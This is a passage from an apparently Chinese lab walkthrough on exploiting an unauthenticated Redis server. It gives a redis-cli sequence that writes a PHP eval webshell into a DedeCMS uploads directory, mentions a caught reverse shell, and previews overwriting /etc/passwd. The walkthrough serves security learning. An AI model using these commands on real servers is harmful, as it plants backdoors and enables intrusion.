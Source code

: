 ![](https://img-blog.csdnimg.cn/20181129210324265.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



可以看到，我们这边已经收到反弹回来的shell了 



![](https://img-blog.csdnimg.cn/20181129210422873.png)



### 三：写入一句话木马 



写入一句话木马需要我们知道网站的根目录相对于服务器的绝对路径。但是这个靶机网站的根目录相对于服务器的绝对路径很奇葩。不是普通的在  /var/www/html 下，而是在  /var/www/html/dedecms/uploads  这个目录下。



执行下列命令



```
redis-cli -h 192.168.10.32      
set one "\n\n\n<?php @eval($_POST['c']);?>\n\n\n"      
config set dir  /var/www/html/dedecms/uploads      
config set dbfilename webshell.php      
save
```




![](https://img-blog.csdnimg.cn/20181129222610968.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



然后用菜刀连接



![](https://img-blog.csdnimg.cn/20181129222940197.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



可以看到，已经连接成功了！



![](https://img-blog.csdnimg.cn/20181129223045994.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 四：写入/etc/passwd文件



写入 /etc/passwd 文件，这需要使用 root 权限才可以写入。



Windows环境的Redis如何Getshell

-------------------------
